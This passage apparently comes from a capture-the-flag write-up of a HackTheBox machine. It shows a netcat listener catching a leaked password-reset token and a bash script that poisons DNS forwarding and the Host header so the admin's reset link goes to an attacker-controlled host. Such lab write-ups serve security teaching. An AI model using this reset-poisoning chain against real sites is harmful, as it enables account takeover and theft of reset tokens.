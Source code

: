 At `nc`, there’s an HTTP request:

```

oxdf@parrot$ nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.232] 1194
GET /password-reset.php?token=a1c4562f378568a75893411f687a2b73cd632e84df18e57349a9a853cdd326b5328b27303e45ee3ce7c317fd654c3269c9a6e78b9746d45ca307db2269f5f6bc HTTP/1.1
Host: 0xdf-employees.crossfit.htb
User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://crossfit-club.htb/chat
Upgrade-Insecure-Requests: 1

```

At this point I thought I would have access to the admin’s account by visiting that link. I was disappointed to find on visiting:

![image-20210717135839754](https://0xdfimages.gitlab.io/img/image-20210717135839754.png)

#### Trigger Script

I still have the admin coming to visit a page that I’m hosting.

I’m going to build up a script to do the CSRF, but it took me a lot of tries to get it right. Killing and restarting `fakedns.py`, making sure to always forward the zone with `unbound-control` in case it had timed out, and refreshing Firefox got tedious, so I wrote a simple script to trigger the request from the admin:

```

#!/bin/bash    
    
domain="gymxcrossfit.htb"    
ip="10.10.14.13"    
sleep=60      
    
echo "[*] Starting DNS server"    
/opt/FakeDns/fakedns.py -c ./fakedns.conf &    
FAKEDNS=$!    
echo "[*] Forwarding zone"    
sudo unbound-control -s 10.10.10.232 forward_add +i $domain ${ip}@53    
echo "[*] Triggering password reset"    
curl -s -X POST -H "Host: ${domain}/employees.crossfit.htb"  -H 'Content-Type: application/x-www-form-urlencoded' -H 'Referer: http://employees.crossfit.htb/password-reset.php' --data-binary 'email=david.palmer%40crossfit.htb' http://employees.crossfit.htb/password-reset.php | grep 'class="alert' | cut -d'>' -f2 | cut -d'<' -f1
echo -n "[*] Sleeping $sleep seconds waiting for link click starting at: "    
date    
sleep $sleep    
kill $FAKEDNS

```
